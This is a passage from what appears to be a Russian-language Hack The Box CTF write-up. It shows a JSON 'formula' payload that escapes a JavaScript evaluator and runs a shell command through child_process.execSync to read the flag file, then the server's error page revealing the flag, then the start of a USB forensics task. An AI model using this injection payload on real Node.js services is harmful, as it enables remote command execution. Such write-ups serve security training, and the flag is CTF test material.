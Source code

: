 {"name":"Nxt",
    "formula":"(function (y){return ''20222022})('constructor')('throw new SyntaxError(process.mainModule.require(\\"child_process\\").execSync(\\"cat flag*\\").toString())')()"
}


При отправке получаем следующее:

<!DOCTYPE html>
<html lang="en">
 <head>
 <meta charset="utf-8" />
 <title>Error</title>
 </head>
 <body>
 <pre>SyntaxError: HTB{f33l1ng_4_l1ttl3_blu3_0r_m4yb3_p1nk?...you_n33d_to_b3h4v&#39;eval!!}
 <br>..... CallStack Here</pre>
 </body>
</html>

Символ амперсант#39; это ', меняем значение и вводим флаг
##Forensic
### USB Ripper
- **Описание задачи:**
Есть системный администратор, который целый год сливал все события USB на свой Linux-хост... Недавно каким-то плохим парням удалось украсть некоторые данные с его машины, когда они проникли в офис. 
Можете ли вы помочь ему поставить хвост на злоумышленников? Примечание: как только вы его найдете, «взломайте» его. 
- **Решение:**
Ищем что-то для работы с флешками, скрипты или программы
Идём на гитхаб и находим программу usbrip(от создателя самой таски), устанавливаем

![](юсб1.JPG)

Скачиваем файл с данными для таски, распаковываем и заходим в файл
